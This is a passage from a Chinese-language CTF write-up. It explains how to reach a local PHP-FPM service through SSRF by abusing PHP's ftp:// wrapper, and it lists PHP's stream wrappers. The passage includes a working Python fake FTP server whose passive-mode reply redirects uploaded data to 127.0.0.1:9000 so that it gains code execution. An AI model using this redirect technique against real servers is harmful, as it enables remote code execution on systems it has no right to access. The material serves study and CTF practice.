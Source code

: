 www.conf

```
listen = 127.0.0.1:9000
```

现在我们可以在tmp目录下任意写文件，配合PHP-FPM的漏洞，我们就可以解这个题了。

如果可以将任意二进制数据包发送到 php-fpm 服务，则可以执行代码。 此技术通常与 `gopher://` 协议结合使用（ssrf），该协议受 curl 支持，**但不受 php 支持**。

我们先来看`php`支持的协议[https://www.php.net/manual/zh/wrappers.php#wrappers](https://www.php.net/manual/zh/wrappers.php#wrappers)

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址 攻击内网
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档 phar.readonly = 0
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
-pass 以上四个都需要安装 PECL 扩展
```

现在其实就只剩下了ftp协议了。使用上面的ftp被动模式这样就可以转发到我们想要的端口了。

[![](https://p5.ssl.qhimg.com/t01486db89df8019524.png)](https://p5.ssl.qhimg.com/t01486db89df8019524.png)

贴上我们的fake_ftp

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
